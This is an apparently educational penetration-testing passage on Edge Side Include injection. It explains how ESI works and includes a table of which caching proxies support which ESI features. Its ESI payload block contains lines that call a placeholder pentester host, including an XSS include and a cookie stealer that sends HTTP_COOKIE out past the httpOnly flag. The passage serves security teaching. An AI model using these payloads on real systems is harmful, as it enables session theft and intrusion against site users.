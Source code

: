 Edge Side Includes (`ESI`) is an XML-based markup language used to tackle performance issues by enabling heavy caching of Web content, which would be otherwise unstorable through traditional caching protocols. Edge Side Includes (ESI) allow for dynamic web content assembly at the edge of the network (Content Delivery Network, User's Browser, or Reverse Proxy) by instructing the page processor what needs to be done to complete page assembly through ESI element tags (XML tags).

ESI tags are used to instruct an HTTP surrogate (reverse-proxy, caching server, etc.) to fetch additional information regarding a web page with an already cached template. This information may come from another server before rendering the web page to the end-user. ESI enable fully cached web pages to include dynamic content.

Edge-Side Include Injection occurs when an attacker manages to reflect malicious ESI tags in the HTTP Response. The root cause of this vulnerability is that HTTP surrogates cannot validate the ESI tag origin. They will gladly parse and evaluate legitimate ESI tags by the upstream server and malicious ESI tags by an attacker.

Although we can identify the use of ESI by inspecting response headers in search for `Surrogate-Control: content="ESI/1.0"`, we usually need to use a blind attack approach to detect if ESI is in use or not. Specifically, we can introduce ESI tags to HTTP requests to see if any intermediary proxy is parsing the request and if ESI Injection is possible. Some useful ESI tags are:

#### ESI Tags


```html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

In some cases, we can achieve remote code execution when the application processing ESI directives supports XSLT, a dynamic language used to transform XML files. In that case, we can pass `dca=xslt` to the payload. The XML file selected will be processed with the possibility of performing XML External Entity Injection Attacks (XXE) with some limitations.

[GoSecure](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) has created a table to help us understand possible attacks that we can try against different ESI-capable software, depending on the functionality supported. Let us provide some explanations regarding the column names of the below table first:

- Includes: Supports the `<esi:includes>` directive
- Vars: Supports the `<esi:vars>` directive. Useful for bypassing XSS Filters
- Cookie: Document cookies are accessible to the ESI engine
- Upstream Headers Required: Surrogate applications will not process ESI statements unless the upstream application provides the headers
- Host Allowlist: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts

|**Software**|**Includes**|**Vars**|**Cookies**|**Upstream Headers Required**|**Host Whitelist**|
|:-:|:-:|:-:|:-:|:-:|:-:|
|Squid3|Yes|Yes|Yes|Yes|No|
|Varnish Cache|Yes|No|No|Yes|Yes|
|Fastly|Yes|No|No|No|Yes|
|Akamai ESI Test Server (ETS)|Yes|Yes|Yes|No|No|
|NodeJS esi|Yes|Yes|Yes|No|No|
|NodeJS nodesi|Yes|No|No|No|Optional|